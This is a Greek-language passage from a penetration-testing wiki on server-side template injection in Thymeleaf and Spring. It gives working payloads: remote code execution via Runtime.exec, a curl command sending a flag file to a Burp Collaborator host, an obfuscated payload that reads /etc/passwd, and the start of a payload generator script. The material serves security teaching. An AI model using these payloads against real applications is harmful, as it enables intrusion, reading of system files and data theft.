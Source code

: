 Το Thymeleaf απαιτεί αυτές τις εκφράσεις να τοποθετούνται εντός συγκεκριμένων χαρακτηριστικών. Ωστόσο, υποστηρίζεται _inline έκφραση_ για άλλες τοποθεσίες προτύπων, χρησιμοποιώντας σύνταξη όπως `[[...]]` ή `[(...)]`. Έτσι, μια απλή δοκιμή payload SSTI μπορεί να μοιάζει με `[[${7*7}]]`.

Ωστόσο, η πιθανότητα να λειτουργήσει αυτό το payload είναι γενικά χαμηλή. Η προεπιλεγμένη ρύθμιση του Thymeleaf δεν υποστηρίζει δυναμική δημιουργία προτύπων; τα πρότυπα πρέπει να είναι προκαθορισμένα. Οι προγραμματιστές θα χρειαστεί να υλοποιήσουν τον δικό τους `TemplateResolver` για να δημιουργήσουν πρότυπα από συμβολοσειρές σε πραγματικό χρόνο, κάτι που είναι ασυνήθιστο.

Το Thymeleaf προσφέρει επίσης _προεπεξεργασία εκφράσεων_, όπου οι εκφράσεις εντός διπλών υπογραμμίσεων (`__...__`) προεπεξεργάζονται. Αυτή η δυνατότητα μπορεί να χρησιμοποιηθεί στην κατασκευή εκφράσεων, όπως αποδεικνύεται στην τεκμηρίωση του Thymeleaf:
```java
#{selection.__${sel.code}__}
```
**Παράδειγμα Ευπάθειας στο Thymeleaf**

Σκεφτείτε το παρακάτω απόσπασμα κώδικα, το οποίο θα μπορούσε να είναι επιρρεπές σε εκμετάλλευση:
```xml
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
Αυτό υποδηλώνει ότι αν η μηχανή προτύπων επεξεργαστεί αυτές τις εισόδους λανθασμένα, μπορεί να οδηγήσει σε απομακρυσμένη εκτέλεση κώδικα που έχει πρόσβαση σε διευθύνσεις URL όπως:
```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
**Περισσότερες πληροφορίες**

- [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)


{{#ref}}
el-expression-language.md
{{#endref}}

### Spring Framework (Java)
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
**Παράκαμψη φίλτρων**

Μπορούν να χρησιμοποιηθούν πολλαπλές εκφράσεις μεταβλητών, αν το `${...}` δεν λειτουργεί δοκιμάστε το `#{...}`, `*{...}`, `@{...}` ή `~{...}`.

- Διαβάστε το `/etc/passwd`
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
- Προσαρμοσμένο σενάριο για τη δημιουργία payload
```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv

```